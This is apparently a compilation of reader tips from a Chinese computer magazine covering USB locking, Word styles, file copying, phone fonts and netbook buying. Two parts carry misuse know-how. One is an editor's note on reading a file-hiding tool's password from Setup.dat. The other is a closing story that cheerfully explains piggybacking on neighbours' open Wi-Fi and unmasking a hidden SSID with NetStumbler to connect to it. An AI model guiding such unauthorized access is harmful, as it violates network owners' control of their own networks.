“手机酷站”栏里面只是UCWEB收藏中的一部分经典网站，而在“分类大全”里面则收藏了更多的手机网站，涉及的范围也很广，类似我们平时电脑里上网使用的网站导航这里都有。

## 小提示：如何设置和修改UCWEB的快捷键

很多人都觉得用手机上网，主要就是用那几个方向键和确认键(触摸屏除外)。其实，UCWEB浏览器默认给我们手机上的每个数字键都设置了相应的功能，相当于快捷键。如果你对这些按键的功能不熟悉的话，可以打开设置界面进行查看。在UCWEB中点击“菜单→设置→按键设置”，在显示的快捷键设置窗口中就可以看见每个数字键的功能。当然，你也可以修改这些功能，在相应的下拉菜单中选择就可以了(见图6)。



(江苏/云端漫步)

## 我要下达USB禁用令！

该死的阿三，手机中有毒连接到我的电脑上，害人……为了不让别人乱插USB设备，找来高手禁用USB接口，结果自己也用不了……为了对付同事的优盘、MP4、手机等设备中可能含有的病毒而下了USB禁用令，结果得罪一大批人……类似这样的事情每天都在上演着。其实，只要掌握了方法，管好自己的USB接口比下达USB禁用令，也不会得罪人。

### 为 USB 接口上把锁

其实，通过对系统注册表设置就可以为USB接口定制一把锁，当自己使用时打开这把锁，不用时直接锁住USB接口，其他USB设备就不会有机会进入自己的系统中了。不过，自己手工修改注册表比较麻烦，况且还是新手，修改注册表存在风险。为此，推荐一个事先制作好的批处理程序(http://work.newhua.com/cfan/200923/USBopen.rar)，运行后按数字键“1”便可禁用本机的USB接口，当自己需要使用USB设备时，再次运行并选择数字键“2”重新开启USB接口即可(见图1)。

> 小提示：
该方法只针对USB存储器类设备进行限制，不会对USB键盘、鼠标、打印机、摄像头等这类非存储性质的设备进行限制，放心使用。

### 让USB接口只认“熟人”

从Windows Vista系统开始，系统自带了硬件管理中心，可以巧借此功能直接将系统设置成只认熟悉的设备(例如自己的手机、优盘、移动硬盘等)，而其他USB存储器一概不理。这样既能方便自己使用，又可以阻止陌生USB设备在自己的电脑中使用，而且还能让得罪人的事由电脑来顶替，说不定还能最终归咎于他有“人品问题”，嘿嘿！

Step1:先将自己常用的USB设备(例如手机、优盘、移动硬盘等)插到系统中，接下来在“计算机”中右击该设备对应的盘符并选择“属性”，选择“硬件”，在列表中选择该设备项并单击“属性”按钮，在打开的窗口中选择“详细信息”选项卡，将“属性”设置为“硬件Id”，最后复制下面的代码值(见图2)。

按照类似的方法将自己常用的USB设备的硬件ID值一一复制并保存到一个临时记事本文件中。

Step2:按Win+R并在打开的运行对话框中输入“gpedit.msc”，回车打开组策略编辑器，依次展开“计算机配置→管理模板→系统→设备安装→设备安装限制”，双击右侧的“允许安装与下列设备ID相匹配的设备”，在打开的窗口中勾选“已启用”，单击“显示”按钮，然后将之前记录下来的USB设备ID一一添加进来(见图3)。最后，再双击“禁止安装未由其他策略设置描述的设备”，在弹出的窗口中选择“已启用”，再点击“确定”按钮即可。







现在，将其他陌生的USB设备连接到系统中后，系统不会再笑脸迎客了，即使在“计算机”中找遍每个角落，也不会看到相应的盘符，同时还会给出错误提示(见图4)。而插上自己的设备，系统会一如既往地提供服务。

### 要想用我的USB接口，要有我的密令

从http://www.onlinedown.net/soft/85237.htm下载这款名为“USB Manager”的小工具，安装到系统中后它会自动运行在托盘区，右击图标并选择“Options”项，在打开的窗口中勾选“Enable Password”(启用密码)项，然后再设置一个密码。

接下来再右击托盘区中的程序图标并选择“Disable USB storage devices”(禁用USB存储设备)项(见图5)，这样设置后，USB存储类设备就被禁用了，而当自己需要使用时只要右击图标先选择“Enter Password”(输入密码)并输入之前设置的密码，然后再选择“Enable USB storage devices”项即可。



## 换换字体 手机更靓

买了S60第三版系统的智能手机？看腻了手机自带的字体？喜欢WIN7的微软雅黑字体？对华康少女字体情有独钟？好，今天让我们来换换胃口，让你的智能手机(E71，N78，N95等)改变一下字体风格。

给手机换字体其实并不是一件难事，但这里边也有一定的门道和需要注意的问题，否则也会给你带来一些小麻烦。以安装微软雅黑为例，首先下载集合包，地址：http://work.newhua.com/cfan/200923/fonts.rar。

第一步：签名之后安装字体驱动Font router LT，建议字体驱动安装到E盘，也就是存储卡上，如果出现不兼容手机开机白屏等问题，可以把卡拔下单独格式化一遍，比起装在手机C盘中格式化手机要方便多了。接着把FontRouter.ini文件复制到E:\data\fonts下(字体驱动安装在存储卡上时)。

其他字体也不难找，到塞班论坛上找到你的手机型号，在置顶资源导航帖里或者直接百度搜索很容易就能找到。

第二步：把字体文件MSYH.ttf复制到E:\data\fonts或C:\data\fonts下(字体放在C盘可以让系统加载字体更快些)。

重启手机，我们就可以享受新鲜的字体啦。

(北京/tache)

## 让PowerPoint音乐相册一直放映下去！

拜读了第20期的《PowerPoint制作音乐相册》一文之后，我利用该文章作者介绍的方法制作了自己的音乐相册之后感觉此法非常美妙，不过我比较陶醉于自己的相册，想一直欣赏下去怎么办呢？

首先切换到幻灯片编辑状态，然后点击“幻灯片放映”菜单，选择“设置放映方式”。在弹出的“设置放映方式”对话框中，请在“放映选项”栏中的“循环放映，按ESC键终止”的前面打上钩就行了，最后保存修改即可。

小编点评：在“设置放映方式”中不仅可以完成上面的操作，还可以对多显示器，换片方式进行设置。PowerPoint 2007 的设置方法也在同样位置。

(安徽/咖啡)

## 文件要减肥，其实没那么复杂

看了21期中的文章《网络要带宽，文件要减肥》大大不以为然，现在的电脑里只要是Office 2003以上的大部分都自带Microsoft Office Picture Manager。

点击“开始→Microsoft Office→Microsoft Office工具→Microsoft Office Picture Manager”项。

点击“文件→添加图片快捷方式”菜单项，然后打开保存图片的文件夹，点击“添加”即可。

选中要缩小的图片，点击工具栏上的“编辑图片”，然后在右侧点击“压缩图片”，然后根据需要选择压缩类型，还可以看到压缩后的文件尺寸大小。

小编点评：关于这篇文章，CFan 网站的版主 trees 有着自己的想法 ( http://bbs.cfan.com.cn/thread-1015366-1-1.html )。

(汤波)

## 搞定烦人的等级编号

自动递进，例如从第一章到第二章、第三章等，节名也是如此。要实现这个章节序号自动递进更新，就需要进行多级符号的关联操作了。设置及关联的方法也很简单：

在Word主窗口的“开始”选项卡中，单击“多级列表”按钮右侧的下拉按钮，选择列表中的“定义新的多级列表”。

接下来，只要分别为每个级别进行格式设定即可，方法也不难（见图2）。

## 具体应用

- 1. 自动更新章节名称
例如现在输入第一章的名称“企业计划书的基本知识”，但无须手工在前面输入“第一章”，只要将光标放到这段内容中，单击样式列表中的“A”即可，而第二章的标题输入完毕后，也只要直接单击“A”，而第一节的标题输入完毕后单击样式列表中的“B”即可。
- 2. 方便查看目录
使用多级列表的好处并不只是为了省略输入章节名称，而是它的智能管理，当你输入几万字甚至几十万字后，具体是哪一章，有时候自己也摸不清楚了，这时切换到大纲视图，一目了然。
- 3. 提取文章目录
当一本书或是大文章编写完毕后，需要提取整个文章的目录，只要使用这种多级列表格式编辑，之后就很方便地进行目录提取了：选择“引用”选项卡，单击“目录→插入目录”，在打开的窗口中选择“来自于模板”，最后单击“确定”按钮即可得到文章的清晰目录了。

除了在Word中可以方便地使用多级符号来方便平时编辑文档外，在PowerPoint中也可以通过它来方便幻灯片文档的编辑，使用方法类似，在此就不再赘述。

在使用Word编辑一篇长文章或是编辑一本书时，为了处理时的方便及事后的编辑、管理，多级列表的使用少不了。而多级符号的设计与使用，很多朋友还不会，俗话说会者不难，难者不会，从此以后，你就当位会者吧，肯定比难者强。

## DIY自己的样式的表

虽然在Word中默认提供了一套样式表，但可能还不适合我们使用，因此，要想达到自己想要的效果，就需要我们事先DIY一套样式。在Word（本文以最新的Word 2007为例）中单击“开始”选项卡，单击“样式”右下角的展开按钮，在打开的窗口中选择“新建样式”按钮打开新建样式窗口，在创建新样式窗口中的“名称”框中输入“A”（代表第一级），“样式类型”、“模式基准”等参数按照图1中的设置，字体、字号等可以根据实际要求进行定制，再单击“格式”按钮，选择“段落”，然后在打开的窗口中将“大纲级别”设置为“1级”。按照类似的方法设置第二级“B”。

## 关联多级符号

在实际使用时，应该达到这样的目的：章节可以自动递进，例如从第一章到第二章、第三章等，节名也是如此。要实现这个章节序号自动递进更新，就需要进行多级符号的关联操作了。设置及关联的方法也很简单：

这样设置后，基本上就已经竣工了，不过，为了方便日后调用，还应该将设置好的样式及多级符号的关联保存起来：在设置窗口中直接单击“管理样式”按钮，单击“导入/导出”按钮，直接将之前新建的样式“A”、“B”通过“复制”按钮复制到“Normal.dot”模式文件中（见图3）。

这样就将设置的样式及关联的多级列表保存到模板中，日后可以在任何一篇文档中调用。

## 每个闪盘都有一把锁

有闪盘或移动硬盘的朋友，几乎都有这样的烦恼——想给闪盘或移动硬盘里的数据加密可找不到合适的软件。用一般常见的加密软件，如果换台电脑就没法解密。现在我向大家推荐一个叫“U盘超级加密2008”（下载地址：http://work.newhua.com/cfan/200923/upcjjm.rar）的专业的闪盘和移动硬盘的加密软件，让你轻轻松松给你的闪盘和移动硬盘加把锁。它是一个绿色软件无须安装，你只要把它复制到你闪盘和移动硬盘里就可以了。

当你复制到闪盘或移动硬盘并运行它的时候，出现的界面是背诗词软件的界面，当你输入下一句诗句并输对时，显示“正确”并显示下一句诗句问题，当你输入错时显示“错误”。当你输入默认密码：888888时，就进入了程序界面（见图1）。

进入程序界面，可以“修改密码”，可以通过“全盘加密”把盘里的文件和文件夹全部加密，或使用“单个加密”加密单个文件。加密后，该的文件就会从资源管理器中消失，想看那文件，需要先解密。

小编点评：万永杰是为了自己的生活费一直在不停的投稿忠实投稿者。之所以选中这篇稿件也是由于这款软件使用起来简单，另外也是想告诉大家其实这类软件的加密原理非常简单——文件夹隐藏。如果你忘记了密码或是想找回数据时，可以使用“文件夹探”（下载地址：http://www.onlinedown.net/soft/40923.htm），只要扫描一下，就可以看到Hide文件夹（见图2），你的加密文件就在里面，如果忘记密码，可以搜索Setup.dat，然后用记事本打开就可以看到密码了。

(山东/万永杰)

## DIY个性操作系统选择界面

每当我们的电脑启动时，进入操作系统前都会一个系统选择界面。单系统、双系统或多系统用户可以在此选择一个系统来登录。

通常此处显示为“Microsoft Windows XP Professional”（XP系统）或“Microsoft Windows PE”（PE系统）。如何使此处的选择项显示出我们的个性呢？下面就让我们来DIY一番吧！

以Windows XP为例，进入系统后在系统根目录下找到隐藏的boot.ini文件，用“记事本”打开此文件，可看到如图所示的窗口。其中的第二行timeout=30指操作系统选择界面停留时间为30秒，可通过修改此数字来控制界面显示时间长短。后面引号中“Microsoft Windows XP Professional”及“WinPE应急维护系统”即为选择界面的显示项，可通过修改引号内的文字达到DIY系统选择界面的目的。如改为“XX专用”、“最爱XX”等，用来给异性朋友一个惊喜也是不错的哦。最后别忘了保存，改回文件夹选项设置哦！

小编点评：个性化时代就要处处与众不同，为了肯定第一次投稿的张斌，特别选中本文以示纪念。

(张斌)

## 大硬盘的烦恼——复制加速工具

当几百GB大硬盘已经司空见惯的时候，我们在使用电脑时候的困扰已经不是空间不足了。可是，你有没有发现，新的困扰来了：复制文件的速度大大影响了我们的愉悦程度。

### 备份很有必要 但速度也要提高

“增量备份”时间减半 每天养成备份的习惯很重要，但重要数据其实每天变化很少，如果都完全备份是不是太费时间了？这种情况下的数据备份最好使用增量备份方式...直接借助FastCopy就可以达到增量备份的目的：

运行FastCopy后（下载地址：http://www.newhua.com/soft/63007.htm），打开主窗口，“源目录”设置为文件保存目录，“目标目录”设置为用来保存备份文件的目录，接下来在中间的列表中选择“同步-若重名，则仅复制大小时间不同的文件”，单击“执行”按钮后即可进行第一次备份操作（见图1）。

为了方便日后每天进行备份时操作的方便，再单击菜单“任务管理→添加/更新/删除”，在打开的窗口中将当前的任务保存为一个常用任务（见图2），这样日后要进行备份操作时，只要单击菜单“任务管理”，选择之前备份的任务即可进行增量备份，无须再指定源目录、目标目录等参数设置。



### 省电、省事方法——局域网复制后休眠

由于局域网内的数据传输速度与硬盘内不同盘符之间的文件拷贝速度相比要慢很多，如果在备份或是文件移动等操作时，就会花费很多时间，如果目标文件很大，可能需要数个小时，这时，配合自动休眠或是关机功能就可以避免文件拷贝完后一直开机情况下的浪费电能，设置方法也很简单：



设置好“源目录”，再将“目标目录”设置为局域网中的目标电脑中的存储位置，接下来单击菜单“设置→后处理”，在列表中即可选择“休眠”或是“关机”等命令了（见图3）。



在办公室中，可能会有很多废弃的机密文件，如果通过普通方法删除，当硬盘落到不法分子手中后，他们会利用数据还原技术将之前被删除了的文件还原，后果可能不亚于“艳照门”的危害程度。因此，对于一些机密、敏感数据，要学会对其粉碎，TeraCopy就提供了这样的免费粉碎功能：

右击要粉碎的文件并选择“TeraCopy”命令，在打开的窗口中直接单击第四个垃圾筒图标按钮即可进行粉碎了（见图5）。



每款软件都有它独到的功能，如果挖掘出这些潜在的非主流功能，往往可以给我们使用电脑过程中带来诸多的便利，俗话说，会得多不如会得精，你会用100款软件，如果用得都不精，倒不如精通10款软件。要想用得精，就需要平时心细，多挖掘才行。

很多原因会导致某个文件受到损坏，例如病毒的侵袭、杀毒软件的误删除、人工误删除等，而在执行大文件拷贝前，如果源文件已经损坏了，那整个拷贝工作就是徒劳无功的，如果之前先对文件进行检测，确保文件没有损坏后再进行复制，或者单纯地用来检测文件是否被损坏安装了TeraCopy后（下载地址：http://www.newhua.com/soft/59027.htm），右击待检测的文件并选择“TeraCopy”命令，在打开的窗口中再单击第三个带放大镜图标的按钮即可开始检测了（见图4）。

在检测完毕后，文件是否完好无损，一看便知。



## 价格已定！穷人买本八要素

穷人买本，首先考虑的就是价格，当确定了这第一要素外，你还需要考虑些什么呢？

### 双系统 八秒急速上网

像华硕等品牌的笔记本都会自带一个小系统。原本被小编认为是鸡肋的功能，但在你着急出门赴约，又要打开电脑查看如何坐车的时候，你就会明白原来它的作用还真不小。

### 触摸板 多点操作上网本更合适

自从多点触摸的概念引入到“触摸板”之后，一直都未流行，但若是“板小，微操作难”上网本，这个功能是难让你轻松不少的。

### 电池 5小时刚起步

随着上网本和超轻薄笔记本的流行，待机8小时、12小时的笔记本越来越多，但打开无线网络，正常的使用时大概只有6小时、8小时。但要注意现在有些笔记本为双显卡，只有使用集成显卡时才有长时间的待机。如果你是游戏玩家，你的笔记本待机两三个小时已是极限。

### 重量 光驱大部分都没有

为了更轻更薄目前基本所有的上网本和部分超轻薄笔记本为了减轻重量没有配置光驱。对于菜鸟来说，使用系统时就要注意安全，另外就是不要破坏系统的隐藏恢复分区。

### 操作系统 Windows 7当下正流行

随着Windows 7的发布，包括上网本在内的很多机型已经开始换装Windows 7，如果还是预装Windows XP或Vista的型号就要小心，有可能是库存货或是老型号了。而且新电脑在第一次开机时会完成一系列的配置，与正常开机有所区别，这也是判断这台笔记本是否是样机或别人试过的小技巧。

### 键盘 “巧克力”键盘最舒服

为了机器的美观，也为减少误按，现在很多键盘都采用了“巧克力”键盘的设计，同时放大常用键，这点在12英寸以下的笔记本中更是常见，只是在选购时，一定要亲自按试试，有些塑料感较强，有些按键较硬。

### 处理器 SU系列最红火

当你感觉你需要上网本的时候，如果预计很高，可以考虑11.6英寸的超便携笔记本，不仅速度更快，而且价格也并非无法接受。

### 硬盘 传统硬盘占主流

现在主流的笔记本硬盘不外乎SSD和传统硬盘，相同价格下，SSD硬盘笔记本容量更小，虽然速度更快，但传统硬盘还是更实用一些，虽然SSD已经有山寨品牌，但仍然较贵的价格以及质量的缺陷仍然限制了它的流行。

## 你偷网站Logo 我来偷软件Logo

第19期《漂亮的网站Logo随手“偷”》一文给我们推荐了一个叫Getfavicon (http://www.getfavicon.org/) 的网站，通过这个网站我们可以“偷”遍所有网站中的Logo。方法很简单，也很有趣。那既然有人介绍了“偷”网站Logo的方法了，小生就在这里献丑，我得去“偷”软件的Logo了！

小编点评：要说提取软件图标，那方法可太多了，比如软件的官方网站通常就有Logo，再比如用一些专门的软件，比如“图标快速提取工具”(http://www.onlinedown.net/soft/23775.htm )，都比“舒云飞”提供的更方便，当然用ResHacker的优势就是操作性更强，软件中用到的图片你也可以发现。

## 恢复Windows 7快捷方式的小箭头

本人是个标准的CFan，看见各位在杂志上发表自己的文章真是羡慕啊！无奈技术有限，只好把自己最近遇到的问题发表一下，不知道能不能被录用。最近装了Windows 7，在安装的时候我自定义选择了去除桌面快捷方式小箭头的选项。没想到为了美观却惹了祸。后来发现常用的一些工具放不进快速启动栏里，右击程序在弹出的菜单里也没有发现“锁定到任务栏里”这一项。按Win+数字键只会弹出相对应的运行中的程序。估计是去掉了桌面快捷方式小箭头惹来的麻烦。只好先改回去了。先从http://work.newhua.com/cfan/200921/tb.rar下载好注册表备份修复文件。

小编点评：想把漂亮的Windows 7变得更美丽，结果适得其反，实在是惨，好在可以恢复，随着Windows 7的上市，优化类软件越来越多。

## 用%Appdata%找到游戏存档

在电脑爱好者2009年第20期的《游戏存档 我用你的》一文中提到了使用“Windows 文件监视器”寻找一些用普通方法找不到的游戏存档，很感谢作者介绍的这种方法，很好用，效果不错。这是我第一次在电脑爱好者上发文章，借此贡献一个我知道的方法，事先声明：这方法不是我原创，只是想说出来和大家一起分享。这个方法是：打开“运行”，在框中输入“%Appdata%”，一般正常情况下就可以找到一些被隐藏的游戏存档甚至是其他的存档，当初我玩《NBA2K9》时苦于找不到存档，后来在网上找到这个方法，解决了问题，希望这个方法也能帮到更多人。菜鸟CFans迷的文章完毕，请小编检阅。

小编点评：%Appdata%打开的是C:\User\用户名\AppData\Roaming文件夹，这里保存着程序运行后的数据，有些号称“绿色”的软件在这里会“偷偷”留下文件。不仅如此，在Windows XP/Vista中，当访问局域网中的其他电脑时，会弹出对话框，会要求输入对方计算机的用户名和密码，如果选择保存下次就不会再出现了，这个用户名和密码就保存在C:\Users\用户名\AppData\Roaming\Microsoft\Protect\下，删除里面的文件就可以重新出现登录提示。

## 菜菜同学的光盘刻录

现在新买的本本或台式机基本上都会配备刻录机，可以说刻录机早已走进了千家万户，看到别人对刻录光盘是那么的驾轻就熟，你是否也想过把瘾呢。

### 光驱是“易耗品”？

总有人会问，光盘刻录到底会不会对光驱造成影响？光驱中的光头在使用过程中，会出现老化的问题，尤其是在散热不当，连续刻录时会加速老化，其实大可不必担心，正常使用个一年半载不成问题。

### 略施小技

是不是对别人刻的光盘可以在DVD播放机里直接播放很羡慕？其实你也可以，安装光盘刻录软件，目前光盘刻录流行使用的是Nero Burning ROM9 (下载地址http://www.onlinedown.net/soft/3185.htm)。其实让DVD播放机直接播放光盘，只需要在视频文件的格式上注意下，如果不是MPEG2或DVD格式，就要用WinAVI Video Converter v7.6绿色中文特别版(下载地址http://www.ok22.com/?thread-660-3.html)将视频文件转为这两种格式中的一种，之后打开Nero刻录软件，选择DVD菜单，找到DVD视频和照片，点击制作自己的DVD视频，之后添加视频文件(转换格式后的视频文件夹)，再进行刻录就没问题了。BT下载的游戏很好玩，但是现在的很多游戏是ISO镜像安装文件，直接安装肯定不行，可以用虚拟光驱加载，如果怕费事，又能给朋友分享游戏，不如把它刻录出来。打开Nero主界面，选择备份，将映像刻录到光盘并选中需要刻录的ISO文件，再选择刻录光驱和光盘型号即可开始刻录。学会了这一招，菜菜同学又向高手迈进了一步。

The Day After Tomorrow(2004)

动作/惊悚/科幻/剧情

### 关键时刻把家什亮出来

每天回家楼道的声控灯总是不亮，好在摸黑上楼的日子已经成为过去式了。聪明的朋友会利用手机的摄像模式打开闪光灯，不过操作显然是大家不愿意接受。签名后安装Brightlight后，直接运行就会启动闪光灯，并且是长亮模式，可以和便携手电筒媲美。操作十分简单，右键退出程序，闪光灯就会关闭。下载地址：http://work.newhua.com/cfan/200923/brightlight.rar。

目前只可以打开部分S60第二版FP2机型的LED闪光灯，经过实测在N78/N79/N85/N86/6210n/5730上都可以完美的运行。

有的朋友担心长时间点亮是否会烧掉闪光灯，测试10分钟，除了发热以外没有其他不良反应，不过发热量较大，并且肯定是费电的，不建议长时间使用，应急照明完全可以满足。

### 小数点错误惹麻烦

20期53页的“小抄速记”中的Q3解答是错误的，正确的解决方法如下：打开Excel表格后，点击“工具”菜单，选择“选项”选项，打开“选项”对话框。在“编辑”选项卡中，清除“自动设置小数点”前面复选框中的“√”号即可。

小编点评：向各位读者道歉！的确是小编出现错误，用文章中的方法只能出现10000.00和43576.00的情况。同样的问题也有其他读者发来了邮件，这里小编选择了“首发”的陈秀峰。

### 软件签名，其实可以更简单

看过第20期的《安装S60软件出错？来签个名吧》文章中，我们了解到一种对S60软件进行签名的方法。其实，我们除了可以在手机内进行软件签名的工作，也完全可以先把软件在电脑里面签名后再传输到手机里。要在电脑中为S60软件签名，除了同样要到网站上面申请证书外，也需要一个在电脑中运行的小工具：signtools (下载地址：http://work.newhua.com/cfan/200922/ltqm.rar)。打开这个工具软件，在主界面中点击“选择证书”，选择你从网站申请下来的CER文件，再点击“选择软件”，选择你要签名的SIS软件，点击“执行签名”按钮，就会在原软件所在文件夹里自动生成一个名为x-已签名.sis的文件。这样签名，不仅可以节省一部分手机空间，而且你可以把已经签名的软件保存下来，在系统升级或者格机以后，可以直接把签名好的软件复制进手机安装，而不必先把签名工具安装进手机。

小编点评：Nokia已经明确表示在推出Maemo平台的同时，也不会放弃Symbian，会采取“两手抓两手都要硬”的方针政策，看来Symbian用户一时半会儿还是离不开签名的。



## 北漂手记
### 一个IT民工“凿壁偷网”的故事
#### STORY 1
#### 毫无障碍，搭乘邻居网络顺风车

到了北京，花800大洋安顿好住处，工作暂时没有着落。为排遣自己身在他乡为客的孤寂，咬咬牙、狠狠心、跺跺脚，花3500个大洋买了个本本。有心装个宽带，但摸摸瘪瘪的钱袋，还有不到500元，还要生活，只能作罢。每天蜗居在卧室听到左邻右舍QQ响起此起彼落的嘀嘀声，心中甚痒，一日心中一动，能否来个“凿壁偷光”，蹭蹭他人的网络来用用呢？

### 蹭网
#### 给自己一个可以蹭的理由

所谓“蹭网”是指借助于周边现成的无线网络，通过一定的技术手段，从而达到免费上网的目的。因此，要想蹭网必须具备一定的条件。

- ①身边要有无线热点
“无线热点”也就是我们常说的公共WLAN（无线局域网），它是一种通过无线接入点（含无线AP或无线路由器）的无线信号覆盖区域，可以为用户提供无线局域网或Internet互联网服务。无论是私人架设的无线网络还是大城市由政府主导架设的无线网络，只要无线信号能覆盖到，都可以蹭。

> 小知识: 什么是无线AP？
> 应该说目前无线AP的称呼比较混乱，使人听起来一头雾水，无线AP是Access Point（无线访问节点、会话点或存取桥接器）的简称。从狭义来讲，AP是指单纯性无线AP，说直白一点就是一个无线的交换机，仅仅提供一个无线信号发射的功能。广义的AP是一个包含很广的名称，它不仅包含单纯性无线接入点（无线AP），也同样是无线路由器（含无线网关、无线网桥）等类设备的统称。在文章中如没有特别的说明，我们一般还是只将所称呼的无线AP理解为单纯性无线AP，以示和无线路由器加以区分。

- ②电脑要有无线网卡或迅驰模块
单有无线热点还不行，我们的本本还需要有可以接收无线信号的硬件设备。这个实现起来一点也不困难，带有迅驰模块的笔记本已经具有无线联网的条件了。没有迅驰技术的本本也不要紧，我们另外购买一款无线网卡即可。

> 小知识: 什么是无线路由器？
> 无线路由器是无线AP与宽带路由器的一种结合体；它借助于路由器功能，可实现家庭无线网络中的Internet连接共享，实现ADSL和小区宽带的无线共享接入。

> 小知识: 什么是迅驰？
> 迅驰是英特尔公司面向笔记本电脑推出的无线移动计算技术的品牌名称，迅驰（Centrino）是：Centre(中心）与Neutrino（中微子）两个单词的缩写。它由三部分组成：移动式处理器（CPU）、相关芯片组以及802.11无线网络功能模块。迅驰最吸引人的地方是具备无线连接、流动通讯的功能，采用迅驰技术的本本，只要周围有无线热点存在就可以无线上网。

### 蹭网
#### 免费网络不请自来

经过一番研究，发现我的本本具有迅驰模块，可以无线上网，于是怀着激动、不安而略带紧张的心情开始了“蹭网”处女行。

- 第1步: 安装本本迅驰模块的驱动。将本本自带驱动程序光盘插入光驱，弹出安装界面，选择安装无线网卡并按提示进行操作即可。
- 第2步: 检查无线服务是否开启。在“运行”对话框中键入“services.msc”，回车后打开Windows服务窗口。在服务列表框中找到“Wireless Zero Configuration”服务，在打开的属性窗口中双击，将其启动类型设置为“自动”，单击“确定”即可。
- 第3步: 搜索身边的无线热点。按下笔记本电脑上的无线联网开关键（上面带有无线网络标识），这时在任务栏托盘区会出现一个“无线网络连接”图标。双击该图标，就可以看到搜索到的无线热点了。其中，带锁头标志的表示是经过加密的无线热点，没带锁头标志的，则是没有经过加密的无线热点。

故障排除: 排除无法搜索到无线热点故障。如果在“无线网络连接”窗口中搜索不到无线热点，而身边又确实存在无线热点，那么，则是“Wireless Zero Configuration”服务没有启动的缘故，进入服务列表，将WZC启动即可。如果仍然不行，那么则可以单击“无线网络连接”窗口左侧窗格中的“更改高级设置”链接，然后切换到“无线网络配置”标签，选中“用Windows配置我的无线网络设置”复选项，确定之后故障即可排除。

> 小知识: 什么是WIFI?
> WIFI是Wireless Fidelity的简称，是IEEE（美国电气电子工程师学会）为解决无线网络设备互连，于1997年6月制定发布的无线局域网标准。IEEE802.11是IEEE制定的第一个无线局域网标准，主要用于解决办公室局域网和校园网中用户与用户终端的无线接入，后来又推出了众多的后续版本。
> 1997年，发布IEEE802.11，速度2Mbps;
> 1999年，发布IEEE802.11a，速度54Mbps;
> 1999年，发布IEEE802.11b，速度11Mbps;
> 2003年，发布IEEE802.11g，速度54Mbps;
> 目前最新的IEEE802.11n，最高速度300Mbit/s;

### 蹭网
#### 轻松挤进邻家网络

搜索到无线热点之后，要蹭网就简单了，前面没有带锁头标志的，缘份子最多的是首选，因为这样的无线热点没有加密且WIFI信号强，可以直接连接使用并且速率稳定。在“无线网络连接”窗口中选定某一个没有加密且信号强的无线热点，单击右下角的“连接”即可。就这样，即可轻松挤进粗心邻居没有设防的无线网络大门，现在就可以自由上网冲浪了。

> 小知识:
> 不要指鹿为马，WIFI非WI-FI! 802.11b有时也被错误地标为Wi-Fi，实际上Wi-Fi是无线局域网联盟（WLANA）的一个商标，该商标仅保障使用该商标的商品互相之间可以合作，与标准本身实际上没有关系。但是后来人们逐渐习惯用WIFI来称呼802.11b协议。它的最大优点就是传输速度较快，可以达到11Mbps，笔记本电脑的迅驰技术就是基于该标准的。

#### STORY 2
#### 追根溯源，揪出网络隐藏的 SSID

为尽快解决肚子和钱囊问题，在初来北京的日子里，我买了张北京地图然后便如猎狗般在城市中寻找那个能给我未来和金钱的公司！很明显，在这座“具有3000多年建城史和800多年建都史的世界历史文化名城”中我迷路了，原来在首都找工作也特难！

### 追根
#### SSID成为隐形人的秘密

这天拖着疲惫的身体回到宿舍开机上网，前几天还用得好好的无线热点突然人间蒸发了，怎么回事？略一沉思，在计算机应用专业喝过墨水的我立马明白了，对方隐身匿踪成了网络隐形人了。怎么，你不信？对方是如何藏匿踪迹的呢？还是让我来告诉大家吧！那就是——禁止SSID广播。

大家都知道，同一生产商推出的无线路由器或AP都使用了相同的SSID，而Windows XP自带无线网络扫描功能可以侦测到当前区域内的SSID，很多如我一般的蹭网者很容易搜索到这些SSID，并利用通用的初始化字符串来连接无线网络，从而达到免费蹭网的目的，更有一些别有用心之人，可能通过SSID进行非法的入侵，从而给无线网络带来威胁。因此，那些安全意识较强的人往往会禁止SSID。

- 第1步: 在浏览器地址栏键入无线路由器的管理地址，以D-Link DIR 300为例，键入“192.168.0.1”，回车后弹出登录对话框，键入“Admin”和密码后进入路由的管理页面。
- 第2步: 选择“安装”标签，然后选择“无线安装”→“手动无线因特网安装”选项。
- 第3步: 在接下来的页面中，将默认的无线网络名称“dlink”更改为其他任意标识，并选中“启用隐藏无线”复选框，最后单击“保存设置”按钮即可。

由于没有进行SSID广播，该无线网络被无线网卡忽略了，尤其是在使用Windows XP管理无线网络时，达到了“掩人耳目”的目的。

> 小提示:
> 无线路由器的品牌不同，“禁止SSID广播”的方法也略有不同，有的是选中“禁止SSID广播”，有的是取消“允许SSID”，还有的是将“Wireless SSID Broadcast”设置为“Disabled”。
> 另外，禁止SSID广播后，无线网络的效率会受到一定的影响，但安全性则相对提高了。

> 小知识: 什么是SSID?
> SSID（Service Set Identifier）是用来区分不同的网络的字符串，最多可以有32位，无线网卡设置了不同SSID就可以进入不同网络，通俗地说，SSID就是厂商或用户自己给无线网络所取的名字，默认情况下，SSID为路由或AP厂商的名字，如TP-LINK、D-PLINK等等。

### 溯源
#### 让隐形人从幕后到台前

对于设置了“禁止SSID广播”的无线网络，通过普通的办法在Windows XP的无线连接窗口中是搜索不到的，不过，借助于一款小工具的帮助，隐藏的SSID还是逃脱不了我的法眼，被我从幕后揪到了台前。

- 第1步: 下载并安装NetStumbler v0.4 汉化第三版，下载地址：http://www.crsky.com/soft/9917.html。
- 第2步: 运行NetStumbler，如果杀毒软件弹出警告框，请将NetStumbler添加到信任区域。
- 第3步: 单击NetStumbler窗口中绿色的“扫描”按钮，很快隐身的无线的网络就现出了原形。其SSID、MAC地址、通道、速度等信息一应俱全，特别是会以“伪装”加以特别标识。在这里要记下这个改的SSID，下步要用到，我这里侦测到的隐身SSID为‘qiaoshan’。

## SPECIAL TOPIC 特别话题
### 《电脑爱好者》合订本·正文分册

### 搭车
#### 使用隐藏的无线网络上网

再狡猾的狐狸也斗不过好猎手！藏得再深也能把你揪出来。光揪出来还不行，这样太便宜他了，立即着手“搭车”，再次利用他的网络上网冲浪……

- 第1步：双击任务栏的无线网卡管理图标，注意不是Windows自带的无线连接图标。如果看不到无线网卡管理图标，则通过程序菜单来启动它。我使用的是大多数笔记本自带的迅驰模块通用的Intel(R) PRO/Wireless 2200BG无线网卡，其自带的管理程序是Intel PROSet Wireless。
- 第2步：启动Intel PROSet Wireless后，单击“启用无线管理”按钮，程序开始搜索周围的无线网络，很快就可以发现那个隐藏的无线网络，并显示“SSID未广播”。
- 第3步：选中这个“SSID未广播”的无线网络，单击“配置”按钮，在“配置式名称”文本框中随意输入一个名称，在“无线网络的名称(SSID)”文本框中输入此前侦测到的隐身SSID的名称，示例中是“qiaoshan”，单击“下一步”。
